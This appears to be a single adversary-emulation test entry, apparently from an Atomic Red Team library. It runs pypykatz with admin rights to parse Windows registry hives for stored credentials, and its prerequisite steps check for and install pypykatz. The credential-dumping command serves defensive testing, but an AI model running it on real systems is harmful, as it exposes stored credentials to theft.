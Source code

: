<br/>
<br/>

## Atomic Test #16 - Registry parse with pypykatz

Parses registry hives to obtain stored credentials

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
pypykatz live registry
```

#### Dependencies:  Run with `powershell`!

##### Description: Computer must have python 3 installed

##### Check Prereq Commands:

```powershell
if (python --version) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
echo "Python 3 must be installed manually"
```

##### Description: Computer must have pip installed

##### Check Prereq Commands:

```powershell
if (pip3 -V) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
echo "PIP must be installed manually"
```

##### Description: pypykatz must be installed and part of PATH

##### Check Prereq Commands:

```powershell
if (cmd /c pypykatz -h) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
pip3 install pypykatz
```

<br/>
